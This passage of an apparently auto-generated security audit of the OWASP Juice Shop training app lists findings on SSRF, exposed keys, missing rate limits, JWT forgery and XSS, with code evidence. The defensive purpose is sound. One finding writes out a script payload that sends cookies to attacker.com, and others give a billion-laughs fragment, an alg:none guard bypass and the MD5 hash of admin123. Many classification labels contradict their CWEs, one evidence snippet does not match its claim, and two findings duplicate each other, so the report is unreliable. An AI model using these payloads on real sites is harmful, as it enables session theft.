The response body is written to `frontend/dist/frontend/assets/public/images/uploads/${loggedInUser.data.id}.jpg` and then served publicly. Attacker reads cloud metadata credentials, internal service APIs, or localhost admin interfaces not intended for external access.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` with `url` taken directly from `req.body.imageUrl` - no allowlist, no scheme check, no host validation.

```typescript
// routes/profileImageUrlUpload.ts:24
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❷ [M-044](#m-044) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:278`

**Issue:** The `serveKeyFiles` handler at `keyServer.ts:13` serves files from `encryptionkeys/` to any caller. The route is registered with no authentication middleware.

The `encryptionkeys/` directory contains at minimum `jwt.pub` (the JWT signing public key) and `premium.key` (a key protecting premium features). Any internet-accessible attacker can read `premium.key` and forge premium authorization tokens, bypassing the premium subscription enforcement and breaching the confidentiality of premium content.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:277`-278 registers both directory listing and file-serving for `/encryptionkeys` with no authentication middleware; `ls encryptionkeys/` confirms `premium.key` is present.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-045](#m-045) — Stop exposing internal information to clients

**Classification:** Cryptographic Failures · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Unauthenticated CTF Flag Broadcast WebSocket

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:30`

**Issue:** When any client connects to the WebSocket, the handler at lines 30-32 iterates all pending entries in the `notifications` array and emits each as a `challenge solved` event. The notification object (built in `challengeUtils.ts:58-66`) includes the `flag` field - the CTF flag value computed by `utils.ctfFlag(challenge.name)`.

An unauthenticated attacker opens a WebSocket connection and immediately receives all pending challenge flags, including flags from other users' solved challenges that haven't been acknowledged yet. An attacker obtains CTF flag values for challenges they have not solved, defeating the purpose of the Juice Shop challenge system.

**Evidence:** ✓ verified - `notifications.forEach((notification) => { socket.emit('challenge solved', notification) })` at line 30-31 unconditionally replays all pending notifications - including `flag` values - to every connecting socket regardless of identity.

```typescript
// lib/startup/registerWebsocketEvents.ts:30
    }

    notifications.forEach((notification: any) => {
      socket.emit('challenge solved', notification)
    })
```

**Fix:** ❷ [M-047](#m-047) — Scope challenge-solved notification broadcasts to the owning user's authenticated socket

**Classification:** Unauthenticated Management Plane · [CWE-668](https://cwe.mitre.org/data/definitions/668.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:594`

**Issue:** The POST `/rest/user/login` endpoint has no rate-limit middleware. An attacker can issue an unlimited number of login attempts per second per IP.

Using a credential-stuffing list or known-weak passwords (admin:admin123 is confirmed by `routes/login.ts:60`), the attacker can enumerate valid accounts, brute-force passwords, and cause the SQLite/underlying DB to handle thousands of concurrent queries. Credential stuffing, password brute force, and account lockout-style DoS against all user accounts with no detection or throttling.

**Evidence:** ✓ verified - `server.ts:594` registers `app.post('/rest/user/login', login())` with no preceding `rateLimit()` middleware; the reset-password endpoint at line 343 has a (bypassable) rate limit, confirming the login omission is not intentional absence of the middleware pattern.

```typescript
// server.ts:594

  /* Custom Restful API */
  app.post('/rest/user/login', login())
  app.get('/rest/user/change-password', changePassword())
  app.post('/rest/user/reset-password', resetPassword())
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-048](#m-048) — Rate-limit and lock out repeated authentication attempts

**Classification:** Broken Access Control · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:645`

**Issue:** The route `POST /b2b/v2/orders` (registered at `server.ts:645`) is protected only by JWT authentication (`isAuthorized()` at `server.ts:423`) with no rate limiting middleware. An attacker holding a forged JWT (trivial given the committed private key) can flood the endpoint with concurrent requests.

Each request spawns a `vm.runInContext` execution with a 2000ms timeout, pinning a V8 context per request for up to 2 seconds. `Node.js` event-loop saturation causing full application unavailability for all users for the duration of the attack, with no authentication required beyond a single forged JWT.

**Evidence:** ✓ verified - `server.ts:645` registers `app.post('/b2b/v2/orders', b2bOrder())` with no preceding `rateLimit()` call; grep of `server.ts` confirms rate limiting is applied to `/rest/user/reset-password` (line 343) and two-factor auth endpoints (lines 458/465/471) but not to any `/b2b/` path.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-049](#m-049) — Add express-rate-limit middleware to POST `/b2b/v2/orders`

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:594`

**Issue:** `server.ts:594` registers `app.post('/rest/user/login', login())` with no rate-limiting middleware. The password reset route has a rate limit (`server.ts:343`) but `/rest/user/login` does not.

An attacker can fire unlimited login attempts against any account. Attacker brute-forces any user account without throttling; password-reset brute force is similarly unthrottled via header spoofing.

**Evidence:** ✓ verified - `server.ts:594` registers the login route without any `rateLimit()` middleware; `server.ts:342-347` shows the reset-password rate limit is bypassable via `X-Forwarded-For`.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-050](#m-050) — Add rate limiting to `/rest/user/login` with IP-only key and account lockout

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload & Processing Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** At `fileUpload.ts:83`, XML is parsed with `noent: true` inside a vm sandbox with a 2-second timeout. However, libxmljs2's entity expansion occurs at the C library (libxml2) level, before and outside the JavaScript execution context that the vm timeout guards.

A billion-laughs XML attack (`<!DOCTYPE bomb [ <!ENTITY a "lol"> <!ENTITY b "&a;&a;&a;&a;&a;"> <!ENTITY c "&b;&b;&b;&b;&b;"> ... An unauthenticated attacker submitting concurrent billion-laughs payloads can exhaust `Node\.js` heap memory, crashing the application and causing a denial of service for all users.

**Evidence:** ✓ verified - `fileUpload.ts:83` passes `noent: true` to libxmljs2's C-level parser; the vm timeout at the same line guards only JavaScript execution, not C-level entity expansion memory allocation.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-051](#m-051) — Bound parser and decompression resource limits

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:20`

**Issue:** The Socket\.IO server created at line 19-20 accepts connections from any client with no connection rate limiting, no per-IP limit, and no maximum concurrent connection count. An attacker can open thousands of simultaneous WebSocket connections from a single host or distributed botnet.

Each connection triggers the notification replay loop (lines 30-32), consuming CPU and memory proportional to the notifications array size. An attacker exhausts server file descriptors, memory, and CPU, causing a denial of service for all legitimate WebSocket and HTTP users.

**Evidence:** ✓ verified - `new Server(server, { cors: { origin: 'http://localhost:4200' } })` at line 20 creates the Socket\.IO server with no `maxHttpBufferSize`, no connection limit, and no rate-limiting option configured.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-052](#m-052) — Enforce connection rate limits and maximum concurrent WebSocket connections

**Classification:** Supply-Chain Integrity · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Authentication Bypass by Spoofing

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:17`

**Issue:** Angular's `LoginGuard.canActivate()` at `app.guard.ts:17-24` checks only `localStorage.getItem('token')` truthiness, and `AdminGuard.canActivate()` at line 52-59 decodes the JWT with `jwtDecode` and inspects the `role` claim client-side. These guards control navigation to `/administration` and `/accounting` but can be bypassed using browser devtools or by manipulating the Angular router programmatically: `(1) AngularRouter.navigate(['/administration'])` triggered from the browser console; `(2) localStorage.setItem('token', '<any string>')` to pass the LoginGuard truthiness check; `(3) a crafted `alg:none` JWT with `{data:{role:'admin'}}` payload to pass AdminGuard decoding`.

While the actual administration API endpoints should enforce server-side authorization, the absence of guard hardening allows the admin UI to load and expose its structure to unauthenticated actors. An attacker can load the admin UI without valid credentials, potentially exposing admin functionality whose server-side enforcement is inconsistent or absent.

**Evidence:** ✓ verified - `LoginGuard` returns `true` based solely on `localStorage.getItem('token')` being truthy - any non-empty string passes. `AdminGuard` trusts the client-side decoded JWT role claim without signature verification.

```typescript
// frontend/src/app/app.guard.ts:17


  canActivate () {
    if (localStorage.getItem('token')) {
      return true
```

**Fix:** ❷ [M-053](#m-053) — Add server-side session validation endpoint called by guards before route activation

**Classification:** Broken Authentication · [CWE-290](https://cwe.mitre.org/data/definitions/290.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Improper Privilege Management

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:156`

**Issue:** The `isAccounting()` middleware and `isDeluxe()` at line 167 check `decodedToken?.data?.role` from the JWT payload without performing a database lookup to confirm the user's current role. A user who was granted `accounting` or `admin` role and subsequently had that role revoked retains elevated access until their 6-hour JWT expires.

More critically, with the hardcoded private key (auth-002) an attacker forges a token payload with `role: 'admin'`, signs it, and all role checks will pass - there is no server-side role truth to compare against. Role escalation via token forgery (facilitated by auth-002) or delayed revocation - an attacker or a revoked privileged user retains admin/accounting access for up to 6 hours after a privilege change.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `lib/insecurity.ts:159` checks `decodedToken?.data?.role === roles.accounting` with no DB read - the token claim is treated as authoritative for access control decisions.

```typescript
// lib/insecurity.ts:156
}

export const isAccounting = () => {
  return (req: Request, res: Response, next: NextFunction) => {
    const decodedToken = verify(utils.jwtFrom(req)) && decode(utils.jwtFrom(req))
```

**Fix:** ❷ [M-054](#m-054) — Apply least-privilege permissions

**Classification:** Insecure File Handling · [CWE-269](https://cwe.mitre.org/data/definitions/269.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:310`

**Instances (17):** `server.ts:310`, `server.ts:311`, `server.ts:407`, `server.ts:419`, `server.ts:420`, `server.ts:421`, `server.ts:437`, `server.ts:440` … (+9 more)

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-056](#m-056) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `server.ts:604`

**Issue:** `server.ts:604-605` registers `GET /rest/admin/application-version` and `GET /rest/admin/application-configuration` without any `security.isAuthorized()` middleware before the handlers. These endpoints expose the full application configuration object (returned by `retrieveAppConfiguration()`) and the running version string to unauthenticated callers.

The configuration object includes challenge-solving flags, customization parameters, and potentially any config values that include secrets or internal hostnames depending on the runtime config file. Unauthenticated callers read full application configuration; chatbot responds to unauthenticated requests, potentially leaking internal information or being abused for denial-of-service against the LLM backend.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `server.ts:604-605` and `629-630` register admin and chatbot REST handlers without preceding `security.isAuthorized()` middleware.

```typescript
// server.ts:604
  app.post('/rest/basket/:id/checkout', placeOrder())
  app.put('/rest/basket/:id/coupon/:coupon', applyCoupon())
  app.get('/rest/admin/application-version', retrieveAppVersion())
  app.get('/rest/admin/application-configuration', retrieveAppConfiguration())
  app.get('/rest/repeat-notification', repeatNotification())
```

**Fix:** ❷ [M-057](#m-057) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/request.interceptor.ts:13`

**Issue:** The Angular `RequestInterceptor` reads the JWT from `localStorage` and attaches it to every outbound HTTP request. `localStorage` is accessible to all JavaScript executing in the same origin.

Any successful XSS attack (stored, reflected, or DOM-based) on the Juice Shop domain can call `localStorage.getItem('token')` and exfiltrate the JWT to an attacker-controlled server. Any XSS vulnerability on the same origin results in full session theft and persistent account access for the JWT's 6-hour lifetime.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `localStorage.getItem('token')` at `request.interceptor.ts:13` is the token retrieval path; `localStorage.setItem('token', ...)` occurs in at least 3 other Angular components - token is never stored in an httpOnly cookie.

**Fix:** ❸ [M-012](#m-012) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express\.js REST API Backend  ·  **Location:** `routes/updateProductReviews.ts:18`

**Issue:** The updateProductReviews handler calls `db.reviewsCollection.update({ _id: req.body.id }, { $set: { message: req.body.message } }, { multi: true })`. When `req.body.id` is supplied as a MarsDB query operator object (e.g. `{ $gt: '' }`) rather than a string ID, the filter matches all documents in the collection.

Combined with `multi: true`, this updates every review's message field to the attacker-controlled value, effectively defacing all product reviews simultaneously. An attacker can overwrite the message field of all product reviews in the MarsDB in-memory store, or update a review they did not author (forged review), corrupting review data for all products.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `routes/updateProductReviews.ts:18` uses `req.body.id` directly as a MarsDB filter with `multi:true` at line 20, and no UserId/author constraint is added to the filter.

```typescript
// routes/updateProductReviews.ts:18
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
      { $set: { message: req.body.message } },
      { multi: true } // vuln-code-snippet vuln-line noSqlReviewsChallenge
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-035](#m-035) — Use parameterized database queries

**Classification:** Cryptographic Failures · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Insertion of Sensitive Information into Externally-Accessible File

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload & Processing Service  ·  **Location:** `routes/logfileServer.ts:14`

**Issue:** At `logfileServer.ts:13-14`, the `serveLogFiles` handler serves any file from the `logs/` directory specified in `params.file`. The only check is `!file.includes('/')` which prevents directory traversal via forward-slash path separators.

No authentication is required to reach this endpoint (`server.ts:283`). Any internet-accessible attacker can download complete application access logs containing user IP addresses, session tokens embedded in URLs, and stack traces revealing internal file paths and application logic.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `logfileServer.ts:13`-14 checks only for `/` in the filename; `server.ts:281`-283 shows no auth middleware between the route registration and the handler.

```typescript
// routes/logfileServer.ts:14

    if (!file.includes('/')) {
      res.sendFile(path.resolve('logs/', file))
    } else {
      res.status(403)
```

**Fix:** ❷ [M-046](#m-046) — Require admin-role JWT authentication on GET `/support/logs` and GET `/support/logs/:file`

**Classification:** Insecure File Handling · [CWE-538](https://cwe.mitre.org/data/definitions/538.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Two-Factor Authentication Disable

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/2fa.ts:158`

**Issue:** The 2FA disable handler verifies the user's password with `user.password !== security.hash(password)` - where `security.hash()` is `MD5` (`lib/insecurity.ts:43`). An attacker who obtains the `MD5` password hash (e.g., via the SQL injection at auth-001, or from the `/rest/user/authentication-details` endpoint accessible to admin users) can compute a preimage using rainbow tables (CrackStation, hashcat) or trivially crack `admin123` (32-char `MD5`: `0192023a7bbd73250516f069df18b500`).

With the preimage in hand, the attacker submits the cleartext password to disable 2FA, then completes account takeover without needing the TOTP token. Attacker who knows a user's `MD5` hash (trivially obtained via SQLi) can disable 2FA on their account, eliminating the second authentication factor before completing takeover.

**Evidence:** ✓ verified - `routes/2fa.ts:158` calls `security.hash(password)` which maps to `crypto.createHash('md5')` at `lib/insecurity.ts:43` - weak hash used to gate 2FA disable operation.

```typescript
// routes/2fa.ts:158
    const { password } = req.body

    if (user.password !== security.hash(password)) {
      throw new Error('Password doesnt match stored password')
    }
```

**Fix:** ❷ [M-055](#m-055) — Migrate 2FA password confirmation to use bcrypt comparison consistent with auth-005 fix

**Classification:** OAuth / OIDC Misconfiguration · [CWE-308](https://cwe.mitre.org/data/definitions/308.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Data disclosure

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer (SQLite + MarsDB)  ·  **Location:** `data/static/challenges.yml:1381`

**Issue:** Application data transmitted over HTTP without TLS encryption exposes sensitive information including credentials and session tokens to network interception. Attackers on the network path can perform passive eavesdropping or active man-in-the-middle attacks.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ◌ ambiguous - Credentials or session material cross the wire over a clear-text channel.

```yaml
// data/static/challenges.yml:1381
  name: 'CSRF' # FIXME No e2e test automation! No longer works in Chrome >=80 and Firefox >=100 or other latest browsers!
  category: 'Broken Access Control'
  description: 'Change the name of a user by performing Cross-Site Request Forgery from <a href="http://htmledit.squarefree.com">another origin</a>.'
  difficulty: 3
  hints:
```

**Fix:** Force TLS on every transport channel and reject downgrades → ❷ [M-001](#m-001) — Architecture review: validate Data disclosure through cleartext transport

**Classification:** Cryptographic Failures · [CWE-319](https://cwe.mitre.org/data/definitions/319.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:132`

**Issue:** `search-result.component.ts:132` calls `this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` on every product fetched from `/api/Products`. An attacker with admin access (or who can exploit the admin endpoint) injects `<script>document.location='https://attacker.com/?c='+document.cookie</script>` into a product's description field.

Every user who loads the product listing page then executes this payload. Stored XSS in product listing affects all users who browse the shop, enabling mass session hijacking or account takeover via JWT exfiltration from localStorage.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `trustProductDescription()` calls `bypassSecurityTrustHtml` on server-returned product description strings before binding them to the product grid template.

```typescript
// frontend/src/app/search-result/search-result.component.ts:132
  trustProductDescription (tableData: any[]) { // vuln-code-snippet neutral-line restfulXssChallenge
    for (let i = 0; i < tableData.length; i++) { // vuln-code-snippet neutral-line restfulXssChallenge
      tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description) // vuln-code-snippet vuln-line restfulXssChallenge
    } // vuln-code-snippet neutral-line restfulXssChallenge
  } // vuln-code-snippet neutral-line restfulXssChallenge
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-030](#m-030) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:170`

**Issue:** `search-result.component.ts:170` assigns `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` where `queryParam` is taken directly from `this.route.snapshot.queryParams.q` (line 163). Angular's `bypassSecurityTrustHtml` instructs the DomSanitizer to skip all HTML sanitization, so any HTML or JavaScript in the `q` URL parameter is rendered verbatim in the search results template.

An attacker sends the victim a link like `/#/search?q=`. An attacker can execute arbitrary JavaScript in the victim's browser session, exfiltrate the JWT from localStorage, and take over the account.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `bypassSecurityTrustHtml` is called directly on `route.snapshot.queryParams.q` with no prior sanitization, making the search-term display a reflected XSS sink.

```typescript
// frontend/src/app/search-result/search-result.component.ts:170
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-031](#m-031) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (10)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:19`

**Issue:** Neither the login handler (`routes/login.ts`) nor the password reset handler (`routes/resetPassword.ts`) emit structured audit log entries for authentication events. Successful logins, failed login attempts, password reset completions, and 2FA changes produce no immutable record.

Compromised accounts cannot be detected through log analysis; forensic investigation is impossible; regulatory audit requirements (e.g., PCI-DSS Req 10) cannot be met.

**Evidence:** ✓ verified - `routes/login.ts` `afterLogin()` at line 19 issues JWT and returns a response with no `logger.info()`, `console.log()`, or audit sink call; `routes/resetPassword.ts` line 44 updates the password with no audit record.

**Fix:** ❸ [M-059](#m-059) — Add security audit logging

**Classification:** Server-Side Request Forgery · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - B2B Order Processing API  ·  **Location:** `routes/b2bOrder.ts:16`

**Issue:** The B2B order handler records no structured security event when an order is accepted or when a sandbox execution error occurs. The only logging in place is HTTP-level access logging via `morgan('combined')` at `server.ts:338`, which captures the HTTP method and URL but not the authenticated actor's identity from the JWT, the contents of `orderLinesData`, the order number assigned, or whether a sandbox error occurred.

Inability to attribute specific order-processing events or RCE attempts to a particular B2B actor, preventing fraud investigation and regulatory compliance for financial transactions.

**Evidence:** ✓ verified - `routes/b2bOrder.ts` contains no import of a logger and no structured log call; the sole logging path is morgan at `server.ts:338` which emits HTTP combined-format lines without actor identity or payload.

**Fix:** ❸ [M-060](#m-060) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/index.ts:39`

**Issue:** Sequelize is initialized in `models/index.ts:30-40` with `logging: false`, suppressing all SQL query logging. MarsDB (`data/mongodb.ts`) has no logging configuration.

Security-relevant write operations (role changes, account creation, review manipulation) leave no audit trail, making incident detection and forensic reconstruction impossible.

**Evidence:** ✓ verified - `models/index.ts:39` sets `logging: false` in the Sequelize constructor options; `data/mongodb.ts` has no event hooks or logging configured for MarsDB collections.

**Fix:** ❸ [M-061](#m-061) — Add security audit logging

**Classification:** Unauthenticated Management Plane · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - File Upload & Processing Service  ·  **Location:** `routes/fileUpload.ts:75`

**Issue:** The POST `/file-upload` endpoint (`server.ts:309`) processes XML, ZIP, and YAML payloads but emits no structured audit log entry recording the caller's IP, timestamp, file name, file hash, or upload result. The `profileImageUrlUpload` handler (`profileImageUrlUpload.ts:37`) logs only on error via `logger.warn()`, with no structured record of successful URL fetches or the identity of the initiating user.

Security incidents triggered through the file upload surface (XXE, SSRF, zip-slip) cannot be attributed to specific actors or reconstructed for forensic investigation, violating PCI-DSS Req 10 and SOC2 CC7.2.

**Evidence:** ✓ verified - No `logger.info()` or structured audit call exists in `fileUpload.ts` or the success path of `profileImageUrlUpload.ts`; the only logging is `logger.warn()` on exception.

**Fix:** ❸ [M-062](#m-062) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - B2B Order Processing API  ·  **Location:** `routes/b2bOrder.ts:32`

**Issue:** When `safeEval(orderLinesData)` throws an error that is not a timeout (lines 25-33 of `b2bOrder.ts`), the raw error object is passed to `next(err)`. Express's default error handler (or any generic error middleware) will serialize this error - potentially including the error class name, message text from within the `notevil` evaluator, and stack frames - and return it in the HTTP response body.

Disclosure of internal evaluator error messages and stack frames to API callers, enabling fingerprinting of the `notevil` version and iterative sandbox-escape payload refinement.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

